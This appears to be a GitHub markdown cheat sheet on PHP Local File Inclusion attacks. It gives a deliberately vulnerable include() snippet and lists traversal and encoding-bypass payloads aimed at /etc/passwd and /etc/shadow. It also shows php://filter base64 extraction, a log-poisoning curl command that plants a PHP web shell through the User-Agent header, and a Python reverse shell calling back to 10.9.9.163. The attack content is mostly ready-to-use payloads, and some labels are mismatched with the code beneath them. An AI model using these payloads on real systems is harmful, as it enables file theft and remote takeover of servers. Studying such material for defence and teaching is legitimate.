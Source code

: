 ### How does an LFI Attack Work

A Local File Inclusion can occur when an application includes a file as user input without properly validating it. This flaw enables an attacker to include malicious files by manipulating the input.

The following vulnerable PHP code could lead to LFI:

```bash
https://website-example.com/?page=filename.php
https://website-example.com/?page=../../../../etc/test.txt
https://example-vulnerable-website.com/?helpfile=../secret/.htpasswd
https://example-vulnerable-website.com/?module=/etc/passwd
https://example-vulnerable-website.com/?module=contact.php
http://www.example_target_website.com/download.php?file=../../../../etc/passwd
http://www.example_target_website.com/download.php?file=document.html
https://example-vulnerable-website.com/?helpfile=login.txt
https://example-vulnerable-website.com/?module=uploads/image123.gif
https://example-vulnerable-website.com/?download=brochure.pdf
https://example-vulnerable-website.com/?download=../include/connection.php
```
#### An LFI vulnerability is found in various web applications. As an example, in the PHP, the following functions cause this kind of vulnerability:

```bash
include
require
include_once 
require_once 
```
#### The following is an example of PHP code that is vulnerable to LFI. 
```bash
<?PHP 
    include($_GET["file"]);
?>
```
The PHP code above uses a `GET` request via the URL parameter `file` to include the file on the page. The request can be made by sending the following HTTP request: `http://example.thm.labs/index.php?file=hello.txt` to load the content of the `hello.txt` file that exists in the same directory.

The following are some Linux system files that have sensitive information.
```bash
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
```
```
http://website.com/index.php?err=../../../../../../../../etc/passwd HTTP/1.1
```
```
http://example.thm.labs/page.php?file=/etc/passwd
http://example.thm.labs/page.php?file=../../../../../../etc/passwd
http://example.thm.labs/page.php?file=../../../../../../etc/passwd%00
http://example.thm.labs/page.php?file=....//....//....//....//etc/passwd
http://example.thm.labs/page.php?file=%252e%252e%252fetc%252fpasswd
```

#### PHP Filter

```
lfi=php://filter/resource=/etc/passwd

lfi=php://filter/convert.base64-encode/resource=/etc/passwd
```
#### Base64 Decoding
```
echo "base64_code" | base64 -d
```
#### Python2 Reverse-shell to LFI
```
curl -s -H "User-Agent: <?php system(\$_GET['cmd']); ?>" "http://website.com/index.php?err=index.php"
```

```
http://website.com/index.php?err=./includes/logs/app_access.log&cmd=
```

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.9.163",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```
